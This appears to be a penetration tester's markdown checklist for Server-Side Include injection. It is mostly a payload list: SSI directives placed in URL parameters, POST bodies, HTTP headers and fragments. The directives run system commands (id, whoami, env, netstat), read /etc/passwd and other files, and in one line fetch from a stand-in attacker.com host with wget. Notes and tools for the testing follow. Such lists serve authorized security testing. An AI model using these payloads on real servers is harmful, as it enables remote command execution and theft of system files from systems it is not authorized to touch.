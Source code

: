 
## Goal:
Detect places where user-controlled input is included in server-side templates or files that are parsed with SSI directives.

---

## Common Filename or Path Insertion
- [ ] `/view?page=index.shtml`
- [ ] `/include?file=about.shtml`
- [ ] `/template=home.shtml`
- [ ] `/load?path=contact.shtml`
- [ ] `/show?doc=products.shtml`
- [ ] `/page?src=../includes/footer.shtml`
- [ ] `/render?html=./welcome.shtml`
- [ ] `/main?template=layout.shtml`
- [ ] `/site?view=news.shtml`
- [ ] `/dynamic?page=info.shtml`

---

## GET/POST Body Parameters
- [ ] `POST /render { template: '<!--#include file="..." -->' }`
- [ ] `POST /profile { bio: '<!--#exec cmd="id" -->' }`
- [ ] `/submit?desc=<!--#echo var="REMOTE_ADDR"-->`
- [ ] `/api/include?component=<!--#include virtual="/etc/passwd" -->`
- [ ] `/api/page?template=<!--#exec cmd="uname -a" -->`
- [ ] `/contact?msg=<!--#printenv -->`
- [ ] `/blog?comment=<!--#config timefmt="%A" -->`
- [ ] `/load?view=<!--#include file="admin.shtml" -->`
- [ ] `/faq?answer=<!--#set var="foo" value="bar" -->`
- [ ] `/invoice?notes=<!--#flastmod file="secrets.txt" -->`

---

## Headers & Metadata Based Injection
- [ ] `User-Agent: <!--#echo var="HTTP_USER_AGENT" -->`
- [ ] `Referer: <!--#exec cmd="ls" -->`
- [ ] `X-Forwarded-For: <!--#printenv -->`
- [ ] `Cookie: session=<!--#include virtual="/secret.html" -->`
- [ ] `X-Template-Name: <!--#exec cmd="whoami" -->`
- [ ] `X-Comment: <!--#include file="/etc/passwd" -->`
- [ ] `X-Footer: <!--#flastmod virtual="/index.html" -->`
- [ ] `X-About: <!--#config errmsg="Pwned!" -->`
- [ ] `Content-Disposition: <!--#exec cmd="netstat -an" -->`
- [ ] `X-SSI-Test: <!--#echo var="DOCUMENT_NAME" -->`

---

## URL Fragments & Obscure Inputs
- [ ] `/search#<!--#exec cmd="ls" -->`
- [ ] `/index.html?section=<!--#include file="etc/passwd" -->`
- [ ] `/help?lang=<!--#printenv -->`
- [ ] `/archive?year=<!--#echo var="DATE_LOCAL" -->`
- [ ] `/feedback?input=<!--#exec cmd="id" -->`
- [ ] `/test#<!--#set var="foo" value="bar" -->`
- [ ] `/info?file=<!--#flastmod virtual="/admin" -->`
- [ ] `/contact#<!--#include virtual="/data" -->`
- [ ] `/pdfgen?footer=<!--#exec cmd="cat flag.txt" -->`
- [ ] `/pdf?note=<!--#echo var="SCRIPT_FILENAME" -->`

---

## SSI Payload Patterns to Try
- [ ] `<!--#echo var="DOCUMENT_URI" -->`
- [ ] `<!--#exec cmd="id" -->`
- [ ] `<!--#include file="/etc/passwd" -->`
- [ ] `<!--#printenv -->`
- [ ] `<!--#flastmod file="index.html" -->`
- [ ] `<!--#config timefmt="%Y-%m-%d" -->`
- [ ] `<!--#set var="TEST" value="123" -->`
- [ ] `<!--#include virtual="/admin/debug" -->`
- [ ] `<!--#exec cmd="env" -->`
- [ ] `<!--#exec cmd="wget http://attacker.com" -->`

---

## Test Notes:
- [ ] Always check for `.shtml`, `.stm`, `.shtm` extensions
- [ ] Confirm server uses Apache/Nginx with SSI support
- [ ] Monitor for **command execution**, **info leakage**, or **file inclusion**
- [ ] Look for pages including dynamic templates via filenames

---

## 🔧 Tools:
- [ ] Burp Suite (manual testing or custom intruder payloads)
- [ ] FFUF + wordlists for discovering `.shtml` pages
- [ ] SSRF/SSI chaining with out-of-band detection (e.g., collaborator)
- [ ] Param-miner to discover hidden SSI-related params
- [ ] Log monitoring if target has debug 

---
